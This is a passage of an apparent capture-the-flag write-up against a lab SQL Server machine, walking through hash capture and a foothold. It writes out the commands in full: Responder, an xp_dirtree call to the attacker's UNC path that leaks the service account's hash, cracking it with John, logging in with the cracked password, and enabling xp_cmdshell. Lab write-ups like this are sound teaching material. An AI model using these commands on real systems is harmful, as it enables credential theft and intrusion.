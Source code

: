 Dumping some tables to have a look around

![Pasted image 20230302225325](https://user-images.githubusercontent.com/71300144/222975175-2b45edb4-1939-493d-820c-6f1d26d2a18f.png)

I probably fiddled around with dumping table and looking through things manually, and googling for more than a couple hours and I finally came accross a blog post by REDSIEGE that tipped me off that it is possible to capture a hash through the mssql service using Xp_dirtree!! I also found another blog located at Everyday SQL that explained some what, what Xp_dirtree is. 

https://redsiege.com/tools-techniques/2018/09/capturing-sql-server-user-hash-with-sqli/

- Whenever a Windows system tries to connect to a UNC path, the host will try to authenticate to the remote server by passing the user’s password hash. In other words, I could force the SQL server to authenticate to me and give up the password hash of the user account running the SQL server process! (redsiege, para.4)

https://www.patrickkeisler.com/2012/11/how-to-use-xpdirtree-to-list-all-files.html

Spinning up responder to capture the Hash windows will use to try to authenticate the UNC path.

`sudo responder -I tun0 -dwv`

![Pasted image 20230302231224](https://user-images.githubusercontent.com/71300144/222975190-39836b37-0772-4a34-8660-bc64f8081ff2.png)

Now it is time to execute the Xp_dirtree process and capture the hash 

`EXEC xp_dirtree '\\10.10.14.7\responder',0,1;`

Executing the above command you can see that the hash was captured. The hash is for a different service account called 'mssql-svc'! I saved the hash in a file called 'sql.hash'

![Pasted image 20230302231349](https://user-images.githubusercontent.com/71300144/222975198-fdabffe2-f6ab-4d6b-94b4-55cf0901720b.png)

# Cracking Hashed with John the Ripper

I just ran the hash through john and it cracked in seconds.

`john --wordlist=/usr/share/wordlist/rockyou.txt sql.hash`

![Pasted image 20230302232301](https://user-images.githubusercontent.com/71300144/222975215-3b044410-e852-4b8a-9987-96f43a275092.png)

I went back to the mssql service and logged in with the new found credentials

# Gaining a Foothold / Reverse shell

`python2 mssqlclient.py Querier/mssql-svc:'corporate568'@10.10.10.125 -windows-auth`

![Pasted image 20230303120241](https://user-images.githubusercontent.com/71300144/222975225-6521b3f8-1395-422f-b3d9-6d52aee87f49.png)

As you cans see below I enabled the 'xo_cmdshell' quite a bit because I was not sure what the 0 to 1 meant at first but after thinking about it for a seconds, it just means on and off. 0 is off and 1 is on. I first checked whoami

`xp_cmdshell whoami`
